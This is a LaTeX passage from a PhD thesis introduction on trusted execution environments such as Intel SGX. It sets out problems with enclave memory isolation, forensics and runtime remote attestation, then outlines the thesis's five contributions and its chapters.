%\emph{remote attestation} (SGX RA) to verify the \emph{enclave} integrity.
%The \emph{enclaves} live only in user-space and cannot directly 
%interact with the kernel (\ie they cannot invoke \texttt{sycalls}).
%The interaction between \emph{enclaves} and OS is handed by development 
%frameworks that organize the enclave code in \emph{secure} and \emph{outside 
%functions}.
%The former are contained in the \emph{enclave} and handle critical pieces of 
%code and data, while the latter are in the \emph{untrusted region} and 
%interact 
%with the system (\eg writing files, network communication).
%We provide further details of the SGX internals in 
%Section~\ref{sec:software-guard-extension}.

\section{Problem Statement}

TEE technologies achieve a strong security level mainly thanks to
\emph{memory isolation} and \emph{remote attestation}.
At firs sight, these properties might appear as the final solution for 
cloud provider security: the former entrusts confidentiality and integrity by 
design, while the latter allows secure communication channels.
Unfortunately, as common with new technology, their adoption stimulated 
adversaries to develop new intrusion techniques.
Moreover, these properties suffer from technical limitations that require 
researchers to overcome new challenges.
For instance, TEEs often provide a limited amount of isolated memory, thus 
arising scalability issues.
Or else, an adversary may take advantage of the memory isolation to develop new 
intrusion techniques.
If this happens, detecting threats hidden in \emph{trusted regions} becomes 
crucial.
In addition, the current integrity mechanisms are limited to static properties 
(\eg if a piece of code is intact) while overlooking runtime attacks (\eg 
code-reuse ones).
Only few recent solutions investigated such threats, but their design is 
limited to embedded systems.
This section digs into the main issues that afflict \emph{memory 
isolation} and \emph{remote attestation}.

\subsection{Memory Isolation}

An ideal \emph{memory isolation} is enforced at hardware level with new CPU 
opcodes and extra checks at microcode level, thus having an OS independent 
design.
If this property effectively protects against compromised hosts, the isolation 
also introduces new challenges.
For instance, handling the interaction between the \emph{trusted region} and 
the external word (\eg to write a file) assumes a new programming patter.
From the security perspective, un-observable portions of memory may help an 
adversary to hide its presence in the machine.
In the following, we elaborate these limitations.

\vspace{0.5cm}
\noindent \textbf{Memory limit and scalability problems.}
In TEE technologies, and in particular SGX \citep{costan2016intel}, the 
software within a \emph{trusted region} cannot directly interact with the 
hosting OS, moreover, the \emph{trusted region} often has a limited 
size~\citep{baumann2015shielding}.
Previous works studied solutions that move part of the OS functionality inside 
a \emph{trusted 
region}~\citep{baumann2015shielding,arnautov2016scone,tsai2017graphene},
but they introduce further complexity for employing a secure interaction with 
the rest of the world (\eg networking, file system).
Other authors suggested protecting only critical portions of the 
code \citep{schuster2015vc3,lind2017glamdring}.
However, these approaches do not address critical limitations such as the 
interaction with the underlying OS, or the limited amount of memory.
Limited memory makes it unsustainable to deploy all processes in dedicated 
trusted containers.
For instance, machines featured with SGX provide only a few hundred megabytes 
that must be shared among all the running \emph{enclaves}.
If we consider processes such as Skype or Firefox, which require around 
$100$MB each, we need multiple \emph{enclaves} for each process to protect.
Therefore, this approach does not scale for multiple parallel processes.
The introduction of SGX $2.0$ allows modifying the size of a single 
\emph{trusted regions} but it does not modify the maximum memory available for 
trusted containers.
Therefore, we require alternative solutions to overcome the scalability issues 
affecting \emph{trusted regions}.

\vspace{0.5cm}
\noindent \textbf{TEEs as a nest for new threats.}
%
%The SGX design, coupled with a full encryption of an enclave's content, 
%provides advanced protection mechanisms and a trusted communication channel 
%between the enclave and the host process (\ie the main application the enclave 
%belongs to).
%The success of SGX stems from its strict threat model, that considers the OS
%malicious: one can thus tamper with applications, modify their
%behavior, exfiltrate sensitive information, and so on~\citep{iagoattack}.
%In this context, SGX disallows kernel- and user-space code to
%manipulate enclave memory pages, thus guaranteeing integrity and
%confidentiality in the presence of any Iago attacker.
%
The strong isolation introduced by TEE technologies stimulated researchers and 
practitioners to develop new attacks 
vectors~\citep{foreshadow,Murdock2019plundervolt,203183,lee2017hacking}.
Among them, an interesting research line is to exploit memory-corruption 
errors inside the \emph{trusted regions} and run one-shot code-reuse attacks to 
steal enclave secrets (\eg cryptographic keys)~\citep{shacham2007geometry}.
Recently, we observed many solutions that identify such flaws in \emph{trusted 
regions}~\citep{teerex,tale-two-worlds} and specifically new code-reuse 
techniques tailored for SGX~\citep{lee2017hacking,biondo2018guard}.
%First, \cite{lee2017hacking} discussed Dark-ROP that combines a colluded OS 
%and 
%oracles to identify gadgets for return-oriented programming 
%(ROP)~\citep{geometry2007}.
%The main limitation of this attack is the need of crashing the victim
%enclave many times in order to craft the actual payload.
%%An advanced technique was proposed by \cite{biondo2018guard} with Guard's 
%%Dilemma that does not require the assistance of the OS 
%%to perform the attack.
%To cope with this issue, \cite{biondo2018guard} proposed Guard's 
%Dilemma that uses particular gadgets already present in the Intel Software 
%Development Kit (SDK) to build the payload without any enclave crashes.
%Moreover, Dilemma requires only an unprivileged attacker to carry out a 
%single one-shot attack and steal secrets from an enclave.
In this scenario, an adversary may craft an attack that bypass 
existing memory forensic techniques and hide its presence in a legitimate 
\emph{trusted region}.
%
%to identify the 
%intrusions~\citep{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894}.
For instance, in case of external intrusion into a remote server running SGX 
enclaves, the adversary could infect an \emph{enclave}, use it to 
perpetrate actions against the system, and hide her presence behind the 
\emph{memory isolation}.
We thus need to understand which conditions lead to these new threats and to 
what extent they might spread in real scenarios.
% is also interested in reducing the amount of traces 
%left; otherwise, analysts may detect the intrusion and act consequently.
%This is even more critical in case the enclave secret changes and the 
%adversary has to repeat the attack many times.

\vspace{0.5cm}
\noindent \textbf{Incident investigation issues.}
The strong isolation provided by TEE technologies is a double-edged
sword --- protecting legitimate code from untrusted environments,
but also preventing security tools from inspecting the memory and performing
forensic investigations. 
As a result, both researchers and malware developers have also investigated how 
to exploit TEEs for malicious purposes 
\citep{thoughs-on-intel1,thoughs-on-intel2,sgxrop,snakegx,sgxsidechannel}.
Even though code running in a \emph{trusted region} cannot be retrieved and 
analyzed, other artifacts may be present in unprotected memory, thus allowing 
an investigator to infer certain properties of what is running inside the 
protected space.
In fact, a \emph{trusted region} cannot be completely self-contained, as it 
always needs some external support code to interact with the rest of the 
environment.
However, to the best of our knowledge, no study has been performed to date on 
the consequences of TEEs on memory forensics.

\subsection{Remote Attestation}

In standard Remote Attestation (RA) schemes, usually defined as static, the 
\emph{Prover} verifies the integrity of specific hardware and 
software properties -- the \emph{Prover} has loaded the correct software.
%On the market, there are already several available products implementing 
%static RA, such as Software Guard Extensions (SGX)~\citep{costan2016intel} or 
%Trusted Platform Module (TPM)~\citep{tomlinson2017introduction}.
Intuitively, these do not protect against runtime attacks (\eg the 
control-flow ones) that aim to modify the program runtime behaviour without 
injecting new code. 
Therefore, to identify \emph{Prover} runtime modifications, researchers 
proposed runtime RA.
In the literature, a common runtime RA assumption is to rely on a \emph{trusted 
region} to track events from an application, this latter might also reside in 
the \emph{untrusted region}, while the \emph{trusted region} is considered as 
out of the attacker range.
Unfortunately, the current runtime RAs show some limitations.
%Among the different solutions belonging to this category, 
%there are also the control-flow attestation approaches, which
%encode the information about the executed control-flow of a 
%process~\citep{abera2016c,aberadiat}.

\vspace{0.5cm}
\noindent \textbf{Runtime Remote Attestation do not Scale over Complex System.}
The main runtime RAs from the literature mainly focus on embedded 
devices~\citep{abera2016c,zeitouni2017atrium,aberadiat,dessouky2017fat,Dessouky:2018:LLH:3240765.3240821}:
most of them encode the complete execution path of a \emph{Prover} in a single 
hash~\citep{abera2016c,zeitouni2017atrium,dessouky2017fat}; 
some relies on a policy-based verification schema~\citep{aberadiat}; and
other ones adopt symbolic execution to verify the control-flow information 
sent by the \emph{Prover}~\citep{Dessouky:2018:LLH:3240765.3240821}.

Even though the previous solutions result suitable for embedded devices, none 
of them can be applied to a complex system due to the following reasons: 
\begin{enumerate*}[label=(\roman*)]
	\item representing all the valid execution paths through hash values is 
	unfeasible (\eg the number of execution paths tends to grow exponentially 
	with the size of the program),
	\item the policy-based approaches might not cover all the possible attacks,
	\item symbolic execution slows down the verification phase.
\end{enumerate*}
Therefore, we need a new model that tackles these challenges and can represent 
complex software in limited space, thus being able to be adopted in cloud 
infrastructures. 
%We describe our study in Chapter~\ref{chp:runtime-protection-untrusted}.

\vspace{0.5cm}
\noindent \textbf{Runtime Remote Attestation do not Work on TEEs.}
Runtime RAs assume a TEE to trace the application execution.
Therefore, we cannot directly deploy a runtime RA in a TEE because the 
\emph{memory isolation} would block any tracing of the \emph{trusted region}.
%TEE guarantees a \emph{trusted region} is properly loaded in memory, while 
%static RA allows a remote entity to verify the correct enclave initialization.
As such, the TEE alone has no mechanisms to guarantee the correct runtime 
execution of a \emph{trusted region}, which remain vulnerable against
attacks aimed at causing deviations from enclaves' expected legitimate
behaviors~\citep{tale-two-worlds,teerex,biondo2018guard,lee2017hacking,snakegx}.
The \emph{memory isolation} exacerbates runtime attacks that target 
software loaded in \emph{trusted regions}, since there is no mechanism to 
monitor their executions and set legitimate and anomalous ones apart.
Although one can adopt mechanisms tailored at counteracting 
specific threats, research has shown such solutions are brittle and cover a 
limited threat model, mostly focusing on code-reuse attacks, while neglecting 
vectors that induce deviation from normal
behaviors~\citep{tale-two-worlds,teerex,biondo2018guard,lee2017hacking}.
Moreover, current runtime remote attestations focus on
stateless properties, \ie they only model independent executions.  On
the contrary, TEEs are stateful objects modeled as finite states
machines (FSM), as described by \cite{costan2016intel}.
Finally requiring more complex representations.
Considering all these limitations, we need a runtime RA that can be employed in 
\emph{trusted regions}.

\section{Thesis Contributions}

\begin{figure}[t]
	\centering
	
\includegraphics[width=\textwidth]{fig_c1/contribution.pdf}
	\caption[Thesis contribution.]{Thesis contribution.}
	\label{fig:contribution}
\end{figure}

Regardless the security guarantees achieved by TEEs, their design still 
suffers from important limitations.
The object of this thesis is to study the shortcoming of TEE, 
investigate future threats, and propose novel mitigation.
%% THESIS OBJECTIVE - FIRST VERSION
%Specifically, we argue we can improve the TEE security level through a shrewd 
%software design without the need of changing the hardware specification.
Specifically, we identify five main challenges to investigate, and for each of 
them we propose a specific contribution.
%The thesis will describe five contributions in total that will 
%address four aspect of SGX. 
The whole thesis contribution is depicted in 
Figure~\ref{fig:contribution}, that we summarize here and further elaborate in 
dedicated chapters.

\begin{itemize}
	\item[\circledrA{1}] \textbf{Extend Memory Isolation.}
	In TEE machines, usually the space for trusted memory regions is bounded 
	to few mega bytes. 
	This affects the amount of critical content that can be protected 	
	contemporaneously.
	In Chapter~\ref{chp:static-protection}, we study a new software design that 
	stretches the TEE \emph{memory isolation} over vaster memory areas while 
	keeping a limited overhead.
%	This is depicted by the symbol \circledr[1] in 
%	Figure~\ref{fig:contribution}.
	
	\item[\circledrA{2}] \textbf{Advanced Threats Led by Memory Isolation.} The 
	\emph{memory isolation} avoids an external observer to understand the 
	internal behavior of a TEE. Therefore, this isolated space could 
	be used as a nest for a new category of malware.
	In Chapter~\ref{chp:advanced-threats}, we study to which extent an 
	adversary can exploit the TEE isolation to introduce new treats in a system.
%	This is depicted by the symbol \circledr[2] in 	
%	Figure~\ref{fig:contribution}.

	\item[\circledrA{3}]
	\textbf{Incident Response Limitations.} The introduction of 
	non-observable memory regions affects the incidents response in 
	case of intrusion.
	In Chapter~\ref{chp:forensic}, we study the limitation of current 
	investigation techniques in the context of TEE machines and propose new 
	memory-forensic methodologies to investigate the intrusions in these 
	systems.
	
	\item[\circledrA{4}]
	\textbf{Scalable Runtime Remote Attestation for Complex Systems.}
	Current Runtime RA schemes are meant for relatively simple pieces of 
	software in embedded systems.
	In cloud scenarios, where a VM could load programs of any complexity, the 
	current solutions suffer from scalability issues.
	In Chapter~\ref{chp:runtime-protection-untrusted}, we study a new scalable 
	runtime RA schemes that can be deployed over 
	complex systems typical of cloud computing.
%	This is depicted by the symbol \circledr[3] in 
%	Figure~\ref{fig:contribution}.
	
	\item[\circledrA{5}]
	\textbf{Runtime Remote Attestation for TEE.} 
	The standard RA can only guarantee that a TEE has been 
	loaded properly, but it does not model runtime properties such as the 
	execution-flow or the internal state.
	Unfortunately, current runtime RA cannot be deployed inside the TEE space
	for mainly two reasons: (i) the memory isolation disallows tracing TEE
	runtime information, and (ii) TEEs are stateful objects that cannot be 
	modeled with current runtime RA schemes.
	In Chapter~\ref{chp:runtime-protection-trusted}, we propose a new RA schema 
	that is suitable for TEEs.
%	This is depicted by the symbol \circledr[4] in 
%	Figure~\ref{fig:contribution}.
	
%	This is depicted by the symbol \circledr[5] in 	
%	Figure~\ref{fig:contribution}.
\end{itemize}

\section{Outline}
\label{sec:outline}

Here, the thesis' outline.

\begin{itemize}[label={}]
	\item \textbf{Chapter~\ref{chp:background}:} We provide background 
	knowledge about TEEs and the main attack vectors discussed in the thesis.
	\item \textbf{Chapter~\ref{chp:static-protection}:} We propose our solution 
	to overcome memory-constraints in TEEs.
	\item \textbf{Chapter~\ref{chp:advanced-threats}:} We describe our 
	technique to infect legitimate \emph{trusted regions}.
	\item \textbf{Chapter~\ref{chp:forensic}:} We investigate the capabilities 
	of 	memory-forensic techniques in TEE machines.
	\item \textbf{Chapter~\ref{chp:runtime-protection-untrusted}:} We 
	illustrate our new model to improve scalability in runtime RAs.
	\item \textbf{Chapter~\ref{chp:runtime-protection-trusted}:} We detail our 
	new model to implement a runtime RA inside a TEE.
	\item \textbf{Chapter~\ref{chp:related-works}:} We compare our results 
	with the literature.
	\item \textbf{Chapter~\ref{chp:conclusion}:} We discuss the contribution 
	introduced in the thesis and conclude.
\end{itemize}

%\begin{figure}[t]
%	\centering
%	
\includegraphics[width=\textwidth]{fig_c1/mind-map.pdf}
%	\caption[Mind-map.]{Mind-map (TO REMOVE LATER).}
%	\label{fig:mind-map}
%\end{figure}

%
%\subsection{Extend Enclaves Memory Limitations}
%\label{ssec:contribution1}
%
%The \emph{memory isolation} of TEE modules is a strong protection against 
%tampering attacks, which are commonly model as Man-At-The-End adversary (MATE).
%In this scenario, the adversary may edit the binary code to alter the process 
%logic~\citep{AKHUNZADA201544}, while the defender must guarantee that an 
%adversary cannot change the software logic to some extent. 
%TEE technologies, and in particular SGX, provide \emph{enclaves} 
%that shield the software, thus avoiding MATE by design~\citep{costan2016intel}.
%However, TEEs often have practical limitations, \eg software within an 
%\emph{enclave} cannot directly interact with the hosting OS; and the enclave 
%often has size limitations~\citep{baumann2015shielding}.
%Previous works studied solutions that move part of the OS functionality inside 
%a \emph{trusted 
%region}~\citep{baumann2015shielding,arnautov2016scone,tsai2017graphene},
%but they introduce further complexity for employing a secure interaction with 
%the rest of the world (\eg networking, file system).
%Other authors suggested protecting only portions of the 
%code~\cite{schuster2015vc3,lind2017glamdring}.
%However, these approaches do not address critical limitations such as the 
%interaction with the underlying OS, or the limited amount of memory.
%Limited memory makes it unsustainable to deploy all processes in dedicated 
%trusted containers.
%For instance, machines featured with SGX provide only a few hundred megabytes 
%that must be shared among all the running \emph{enclaves}.
%If we consider processes such as Skype or Firefox, which require around 
%$100$MB each, we need multiple \emph{enclaves} for each process to protect.
%Therefore, this approach does not scale for multiple parallel processes.
%The introduction of SGX $2.0$ allows modifying the size of a single trusted 
%container but it does not modify the maximum memory available for trusted 
%containers.
%
%As an alternative approach, researchers proposed anti-tampering techniques, 
%that allow a software to inspect itself and check whether its code has been 
%modified.
%We refer to those techniques as \emph{self-checking}, which literally read the 
%binary code of the protected software by using special functions called 
%\emph{checkers}.
%The checkers compute a digital fingerprint of the software bytecode and verify 
%whether that fingerprint matches a pre-computed 
%value~\citep{nagra2009surreptitious}. 
%However, purely software-based anti-tampering techniques are not 
%completely secure, since the defending mechanisms reside in an 
%\emph{untrusted memory region} and a determined attacker can identify and 
%disarm such defenses.
%It is possible to harden anti-tampering techniques by using a combination of 
%additional 
%approaches that raise the bar for the attackers but that do not fundamentally 
%address the 
%problem~~\citep{horne2001dynamic,banescu2017tutorial,chen2016advanced,chang2001protecting,viticchie2016reactive}
%
%Considering all the aforementioned problems, we propose to combine the 
%anti-tampering techniques and the SGX isolation to extend code protection over 
%\emph{untrusted region}.
%Finally overcoming the intrinsic limitations of SGX.
%We detail our contribution in Chapter~\ref{chp:static-protection}.
%
%\subsection{Investigating New Threats Led by Memory Isolation}
%\label{ssec:contribution2}
%
%The SGX design, coupled with a full encryption of an enclave's content, 
%provides
%advanced protection mechanisms and a trusted communication channel between the
%enclave and the host process (\ie the main application the enclave belongs to).
%The success of SGX stems from its strict threat model, that considers the OS
%malicious: one can thus tamper with applications, modify their
%behavior, exfiltrate sensitive information, and so on~\citep{iagoattack}.
%In this context, SGX disallows kernel- and user-space code to
%manipulate enclave memory pages, thus guaranteeing integrity and
%confidentiality in the presence of any Iago attacker.
%
%The strong isolation introduced by SGX stimulated researchers and 
%practitioners 
%to develop new attacks 
%vectors~\citep{foreshadow,Murdock2019plundervolt,203183,lee2017hacking}.
%Among them, an interesting research line is to exploit memory-corruption 
%errors inside the enclave code and run one-shot code-reuse attacks to steal 
%enclave secrets (\eg cryptographic keys)~\citep{geometry2007}.
%Recently, we observed many solutions that identify such flaws in 
%enclaves~\citep{teerex,tale-two-worlds} and new code-reuse techniques 
%tailored for SGX~\citep{lee2017hacking,biondo2018guard}.
%First, \cite{lee2017hacking} discussed Dark-ROP that combines a colluded OS 
%and 
%oracles to identify gadgets for return-oriented programming 
%(ROP)~\citep{geometry2007}.
%The main limitation of this attack is the need of crashing the victim
%enclave many times in order to craft the actual payload.
%%An advanced technique was proposed by \cite{biondo2018guard} with Guard's 
%%Dilemma that does not require the assistance of the OS 
%%to perform the attack.
%To cope with this issue, \cite{biondo2018guard} proposed Guard's 
%Dilemma that uses particular gadgets already present in the Intel Software 
%Development Kit (SDK) to build the payload without any enclave crashes.
%Moreover, Dilemma requires only an unprivileged attacker to carry out a 
%single one-shot attack and steal secrets from an enclave.
%
%
%In this scenario, however, the previous authors did not consider an OS that 
%may 
%employ existing memory forensic techniques to identify the 
%intrusions~\citep{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894}.
%For instance, in case of external intrusion into a remote server running SGX 
%enclaves, the adversary is also interested in reducing the amount of traces 
%left; otherwise, analysts may detect the intrusion and act consequently.
%This is even more critical in case the enclave secret changes and the 
%adversary 
%has to repeat the attack many times.
%
%Considering all these challenges and the current state-of-the-art, we 
%investigate if TEEs (and SGX in particular) can help adversaries carry more 
%advanced threats by exploiting the TEE \emph{memory isolation}.
%We detail our study in Chapter~\ref{chp:advanced-threats}.
%
%\subsection{Remote Attestation for Complex Systems}
%\label{ssec:contribution3a}
%
%\subsection{Remote Attestation for SGX}
%\label{ssec:contribution3b}
%
%In standard Remote Attestation (RA) schemes, usually defined as static, the 
%\emph{Prover} verification involves the integrity of specific hardware and 
%software properties (\eg the \emph{Prover} has loaded the correct software).
%On the market, there are already several available products implementing 
%static RA, such as Software Guard Extensions (SGX)~\citep{costan2016intel} or 
%Trusted Platform Module (TPM)~\citep{tomlinson2017introduction}.
%However, these do not provide a defence against runtime attacks (\eg the 
%control-flow ones) that aim to modify the program runtime behaviour. 
%Therefore, to identify \emph{Prover} runtime modifications, researchers 
%proposed runtime RA. Among the different solutions belonging to this category, 
%there are also the control-flow attestation approaches, which
%encode the information about the executed control-flow of a 
%process~\citep{abera2016c,aberadiat}.
%
%Studying the runtime RAs available in the literature, we identify two main 
%limitations worthy of attention. 
%First, we observed that current RAs are not suitable for complex systems, such 
%as software running in cloud infrastructures.
%Second, the current solutions cannot be employed in TEE technologies, such as 
%SGX.
%In the following, we explore these two limitations.
%
%\paragraph{Runtime RA for Complex Systems.} 
%
%In comparison to static RA, the runtime one is relatively new, and today there 
%are no reliable products available on the market since researchers have mainly 
%investigated runtime RA for embedded 
%devices~\citep{abera2016c,zeitouni2017atrium,aberadiat,dessouky2017fat,Dessouky:2018:LLH:3240765.3240821}:
%most of them encode the complete execution path of a \emph{Prover} in a single 
%hash~\citep{abera2016c,zeitouni2017atrium,dessouky2017fat}; 
%some~\citep{aberadiat} compress it in a simpler representation and rely on a 
%policy-based verification schema; 
%other ones~\citep{Dessouky:2018:LLH:3240765.3240821} adopt symbolic execution 
%to verify the control-flow information continuously sent by the \emph{Prover}.
%
%Even though the previous solutions result suitable for embedded devices, none 
%of them can be applied to a complex system due to the following reasons: 
%\begin{enumerate*}[label=(\roman*)]
%	\item representing all the valid execution paths through hash values is 
%	unfeasible (\eg the number of execution paths tends to grow exponentially 
%	with the size of the program),
%	\item the policy-based approaches might not cover all the possible attacks,
%	\item symbolic execution slows down the verification phase.
%\end{enumerate*}
%Therefore, we study a new model that tackle these challenges and can represent 
%complex software in limited space, thus can be adopted in cloud 
%infrastructures. 
%We describe our study in Chapter~\ref{chp:runtime-protection-untrusted}.
%
%
%\paragraph{Runtime RA for SGX.}
%
%SGX guarantees a \emph{trusted region} is properly loaded in memory, while 
%static RA allows a remote entity to verify the correct enclave initialization.
%As such, the SGX alone has no mechanisms to guarantee the correct runtime 
%execution of enclaves, which remain vulnerable against
%attacks aimed at causing deviations from enclaves' expected legitimate
%behaviors~\citep{tale-two-worlds,teerex,biondo2018guard,lee2017hacking,snakegx}.
%
%The SGX \emph{memory isolation} exacerbates runtime attacks that target 
%software loaded in enclaves, since there is no mechanism to 
